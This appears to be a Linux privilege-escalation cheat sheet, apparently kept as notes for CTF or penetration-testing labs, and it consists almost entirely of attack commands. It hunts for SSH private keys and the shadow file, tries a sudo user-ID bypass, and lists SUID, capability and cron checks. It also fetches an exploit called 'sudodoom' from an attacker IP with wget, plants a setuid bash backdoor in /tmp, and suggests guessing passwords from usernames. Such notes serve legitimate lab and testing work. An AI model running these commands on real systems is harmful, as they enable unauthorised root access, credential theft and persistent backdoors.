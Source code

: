 ```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

grep bash /etc/passwd

id

env                            <--- CHECK FOR A WONKY SHELL

find / -group <groups> 2>/dev/null

history

sudo -l

sudo -V | grep version
sudo -u#-1 /bin/bash

find / -name id_rsa 2>/dev/null
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"

find / -type f -perm -04000 -ls 2>/dev/null

ls -la /etc/passwd /etc/shadow /etc/security/opasswd

cat /etc/crontab
crontab -l
ls /etc/cron.d
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
getcap -r / 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null

cat /etc/exports
cat /etc/fstab

ip a
ifconfig
netstat -r
ip route
ss -anp
routel
cat /etc/iptables/rules.v4

cat .bashrc

ps -aux
ps -aux | grep cron        <-- search for "root   /usr/sbin/cron -f"

realm list
ps -ef | grep -i "winbind\|sssd"

ls -l /tmp /var/tmp /dev/shm /opt

logrotate -v

ps aux | grep tmux

ls -l /var/log/squid
cat /var/log/squid/access.log.1

dpkg -l
```
1. Snoop on processes using pspy - some cron jobs may be running in the background
2. Research and enumerate literally every cron job running
3. su into other users using their usernames as passwords; vagrant:vagrant
4. Run PEAS and LinEnum
```shell 
wget 10.10.14.4/sudodoom
```

```bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
